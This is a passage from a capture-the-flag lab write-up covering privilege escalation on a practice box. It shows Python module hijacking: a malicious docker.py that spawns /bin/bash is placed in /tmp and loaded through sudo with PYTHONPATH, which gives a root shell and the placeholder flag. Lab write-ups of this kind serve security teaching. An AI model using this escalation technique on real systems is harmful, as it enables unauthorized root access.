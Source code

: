 
In this case I have to do **[Module Hijacking](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/#module-hijacking)** ⤵️ 

```bash
oliver@unbaked:~$ cd /opt
oliver@unbaked:/opt$ ls -al
total 16
drwxr-xr-x  3 root root     4096 Oct  3  2020 .
drwxr-xr-x 23 root root     4096 Oct  3  2020 ..
drwx--x--x  4 root root     4096 Oct  3  2020 containerd
-rwxr-x---  1 root sysadmin  290 Oct  3  2020 dockerScript.py
oliver@unbaked:/opt$ cat dockerScript.py 
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
oliver@unbaked:/opt$
```
{: .nolineno}
{: .nolineno}

Now lets create a `docker.py` file in /tmp directory with bash executable commands and then set the `PYTHONPATH` for it to `/tmp/` directory so that import docker should load the docker from `/tmp/docker.py` file and I get the shell →

```bash
oliver@unbaked:/opt$ cd /tmp
oliver@unbaked:/tmp$ nano docker.py
oliver@unbaked:/tmp$ chmod +x docker.py 
oliver@unbaked:/tmp$ cat docker.py 
import os
os.system("/bin/bash")
oliver@unbaked:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python /opt/dockerScript.py
root@unbaked:/tmp# whoami
root
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@unbaked:/tmp# cd /root
root@unbaked:/root# ls -al
total 32
drwx------  4 root root 4096 Oct  6  2020 .
drwxr-xr-x 23 root root 4096 Oct  3  2020 ..
-rw-------  1 root root    1 Oct  6  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 23  2015 .bashrc
drwx------  3 root root 4096 Oct  3  2020 .cache
drwxr-xr-x  2 root root 4096 Oct  3  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  151 Oct  6  2020 root.txt
root@unbaked:/root# cat root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{FLAG_FLAG_FLAG_FLAG}
root@unbaked:/root#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }